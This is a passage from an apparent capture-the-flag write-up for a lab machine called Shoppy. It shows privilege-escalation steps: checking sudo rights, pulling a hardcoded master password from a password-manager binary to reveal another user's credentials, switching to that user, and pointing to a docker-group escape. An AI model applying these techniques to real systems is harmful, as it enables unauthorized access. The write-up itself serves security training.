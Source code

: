 The user flag is located at /home/jaeger/user.txt

```text-plain
cat /home/jaeger/user.txt
HTB{********************************}
```

Lateral Movement
----------------

Now that I have user access I'll need to start looking for a path to privilege escalation. First I'll check jaeger's privileges with sudo -l

```text-plain
sudo -l
Matching Defaults entries for jaeger on shoppy:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User jaeger may run the following commands on shoppy:
   (deploy) /home/deploy/password-manager
```

Take a look at the password manager in a text editor and about half way through the short program we find some text that appears to be the user prompts. 

> Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !

That word after the password prompt might be hardcoded logic for the master password file that looks to be located in /home/deploy/creds.txt, lets try it out. Run the password manager with sudo and specify the user deploy.

```text-plain
sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

switch users to deploy.

```text-plain
su deploy
Password: 
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

Check who we are with the ID command. This user is in a group named docker. 

Privilege Escalation
--------------------

I'll try a docker container escape privilege escalation attack. More info about that can be found here: [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

